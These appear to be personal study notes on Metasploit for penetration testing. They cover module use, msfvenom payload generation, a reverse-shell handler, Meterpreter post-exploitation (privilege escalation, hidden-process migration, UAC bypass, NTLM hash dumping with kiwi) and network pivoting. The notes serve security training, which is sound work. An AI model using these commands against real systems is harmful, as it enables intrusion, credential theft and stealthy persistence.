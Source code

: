 ```yaml
---
layout: blank
---
```



### The Basics
**Setup and Navigate Metasploit**
- Database isn't enabled by default
	- `sudo msfdb init`, `sudo systemctl enable postgresql`
		- To restart database, stop postgresql and then `sudo msfdb reinit`
	- Run `db_status` in the console to check
- Workspaces
	- `workspace` - create workspaces when pentesting a client 
	- `db_nmap` - works like regular nmap, but stores results in the db
		- Query db with `hosts` for hosts and `services` for services
- `show -h` to show all modules, like `exploits`, `payloads`, and `auxiliary`
	- Showing payloads is nice; default is usually reverse tcp shell
**Auxiliary Modules**
- Used for external attacks, like enumeration, scanning, fuzzing, sniffing, etc.
- `search` to search through the modules, with `type` to specify the module type
	- For example: `search type:auxiliary smb` or `search Apache 2.4.41`
	- When some exploits have multiple targets, and you have a m
- `use` to use a module with a given index from a search
	- For example: `use /auxiliary/scanner/ssh/ssh_login` to brute force ssh
- `info` to get information about the current module
- `show options` to give options that the module can use
- `set {option} {parameter}` to set an option to a given parameter, like RHOSTS to an IP
	- `unset` to unset
	- can set files by providing the path
	- can set payloads by providing the path (`/payload/linux/x86/shell_reverse_tcp`)
- `vulns` to see if any vulnerabilities have been automatically detected
- `creds` to show any discovered creds
- `run -j` to run a job in the background and create a session for one client
- `sessions` can switch between shells
	- Use CTRL+Z to exit a shell but keep it in the background
	- `sessions -l` to list available sessions
	- `sessions -i {session_number}` to switch (interact) with a session

**SearchSploit**
- `sudo apt install exploitdb`
- Contains archive of all exploit code from exploitdb
- Can search through exploits with `searchsploit {string}`
- Can copy exploits to home directory with `-m`
### Using Payloads 
**Staged/Non-Stated Payloads**
- Non-staged: payload is sent along with the exploit
	- No use of `/`  means that it's non-staged (e.g. `shell_reverse_tcp`)
- Staged: Exploit the machine for a callback, then give a larger payload
	- `/` indicates a staged payload (e.g. `shell/reverse_tcp`)
- `show payloads` to see a list of all payloads
	- `set payload {index}` to set a payload after showing them
**Meterpreter**
- Multi-function payload residing entirely in memory
- `help` to display commands in shell
- `sysinfo`  and `getuid` to gather system data
- put `l` before any command to run it on kali
- Channels:
	- Basically the same thing as `sessions` in msf
	- `shell` and Ctrl+Z to push a channel to the background
	- `channel -l` to list all channels
	- `channel -i 1` to interact with a channel
- `download {file_path}` to download a file from the system
- `upload {local_file_path} {resulting_file_path}` to upload a file to the system
- `search -f {filename}` to search from `/` for a file named `{filename}`
**Executable Payloads**
- `msfvenom` can generate malicious executables
- `msfvenom -l payloads --platform {os (windows)} --arch {arch (x86)}` to list payloads
- `msfvenom -p {path_to_payload} LHOST={IP} LPORT={kali_listening_port} -f {filetype (exe)} -o {output_executable}` to generate an executable
- To get an interactive shell via a staged payload, we can use Metasploit's *multi/handler*
	- `use multi/handler`
	- Staged payloads will now give us an interactive shell
- Steps:
	- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<port> -f c`
		- We only get one meterpreter shell, so consider these instead:
			- `windows/x64/shell_reverse_tcp`
			- `linux/x64/shell_reverse_tcp`
	- `msfconsole`
	- `use exploit/multi/handler`
	- `set payload linux/x86/meterpreter/reverse_tcp`
	- `set LHOST 10.0.0.1`
	- `set LPORT 4444`
	- `exploit -j`
### Post-Exploitation
**Meterpreter Post-Exploitation Features**
- `idletime` to see how long it's been since the system was used (e.g. don't run shit until empty)
- `getsystem` to attempt to elevate privileges to NT AUTHORITY\\SYSTEM
- `migrate {process_id}` - injects meterpreter into another process for stealth and persistence
	- If no good processes exist, create one with `execute -H -f {process (notepad)}`
		- `-H` hides the process, so no visual representation will be present
**Post-Exploitation Modules**
- After injecting ourselves into another process, our privilege level drops, so we need to escalate
- `exploit/windows/local/bypassuac_sdclt` is good for UAC bypassing on Windows
	- We can set our session to the session running the shell (from Ctrl+Z -> `bg`)
- Can load extensions directly inside the active session using `load`
	- `load kiwi` to load an extension equivalent to Mimikatz
	- `help` to view commands, like `creds_msv` to dump NTLM hashes
- Can search for post exploitation modules with `search post ...`
	- These only require a meterpreter session id
**Pivoting with Metasploit**
- After getting on a machine, we can enumerate the network in a number of ways
- If we find an internal IP from something like `ipconfig`, we can pivot to it with the following:
	- `bg` to background the session in meterpreter and `route add {IP.IP.IP.0/24} {session_number}` to add a route to an internal network reachable through a compromised host
		- We can remove old routes with `route flush`
	- We can then set RHOSTS to an internal IP and use something like `auxiliary/scanner/portscan/tcp` to scan the open ports on the internal IP
	- Running exploits is the exact same--it just required the route set up in Metasploit
- Can also use `autoroute` module to set up pivot routes
	- `use multi/manage/autoroute`
	- `set session {session_ID}` - can list all sessions with `sessions -l`
- Can also combine routes with `server/socks_proxy`
	- `use auxiliary/server/socks_proxy`
	- Then set `VERSION`, `SRVHOST` as localhost, and `run -j`
		- This will probably return the port 1080
	- Then add `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf`
	- Can then use proxychains to run commands, such as `xfreerdp`
		- `sudo proxychains xfreerdp /v:{internal_target_IP} /u:luiza`
- Can also use `portfwd`
	- Use a meterpreter session with `sessions -i {session #}`
	- Then, port forward with `portfwd add -l {local_port} -p {remote_port} -r {int_IP}`

### Automation
**Resource Scripts**
- Can chain together metasploit commands and Ruby code
	- Put all commands in a script (.rc) and pass it to msfconsole with `-r`
	- Can configure AutoRunScript to automatically execute a module after the script has been run - `set AutoRunScript {module (/post/windows/manage/migrate)}`
	- `set ExitOnSession` to false to keep the multi/handler listening after a connection
	- Then, run with `-z` and `-j` to put the job in the background and stop us from interacting
- Prebuilt available at `/usr/share/metasploit-framework/scripts/resource`